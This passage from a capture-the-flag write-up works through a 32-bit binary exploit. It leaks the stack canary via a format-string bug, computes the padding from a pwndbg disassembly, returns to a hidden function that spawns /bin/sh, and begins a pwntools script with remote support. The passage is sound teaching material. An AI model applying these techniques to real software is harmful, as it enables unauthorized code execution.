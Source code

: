 The `local_50` variable is whats passed into both `gets()` and `printf()`. We can assume that the size allocated to it (`64`) is the initial padding that we'll need.

We'll then add in the canary value following the buffer at pointer index `23`. This will always represent the correct canary value as it is being retrieved from the first `printf` statement via the format string vulnerability

Then we'll need to determine what pattern is required to reach the return address at that specific point. As I mentioned before, this is relatively easy to find in GDB, as the return address can be found directly after the second `gets()` call.

```
pwndbg> disas vuln                
Dump of assembler code for function vuln: 
......                                            
   0x0804920e <+0>:     push   ebp     
   0x0804920f <+1>:     mov    ebp,esp
   0x080492c4 <+182>:   call   0x8049070 <puts@plt>
   0x080492c9 <+187>:   add    esp,0x10
   0x080492cc <+190>:   sub    esp,0xc
   0x080492cf <+193>:   lea    eax,[ebp-0x4c]
   0x080492d2 <+196>:   push   eax
   0x080492d3 <+197>:   call   0x8049050 <gets@plt>
   0x080492d8 <+202>:   add    esp,0x10
   0x080492db <+205>:   nop
   0x080492dc <+206>:   mov    eax,DWORD PTR [ebp-0xc]
```

We see that shortly after `gets()` - `eax` is filled with `ebp-0xc`.

`0xc` is equal to 12 in decimal, meaning that after our gets call and the canary, we have exactly 12 bytes between the canary address and the return address.

Lastly, we'll need to push either shellcode or an address that will allow us to execute code following this 12-byte padding. As you may of noticed - this is where the function that executes `/bin/sh` comes into play. We can simply end our injection by having it return to this hidden function, granting us code execution as `/bin/sh` will give us an interactive shell.

So in all, our pattern should look like this:

```
padding(64) + canary(4) + padding(12 -> ret add) + execute_func(4) 
```

## Exploit

Since we have our pattern, let's utilize a bit of the code from the first challenge. Notably, we'll include the local/remote functionality that `pwntools` provides us to ease the usability between local and remote exploits. We'll also load the process and state the context of the binary.

```Python
#!/usr/bin/python3

from pwn import *

def start(argv=[], *a, **kw):
    if args.REMOTE:  # remote -> python3 exp.py 'ADDRESS' 'PORT'
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # local
        return process([binary] + argv, *a, **kw)

binary = "./serinus"

elf = context.binary = ELF(binary,checksec=False)
p = start()
```
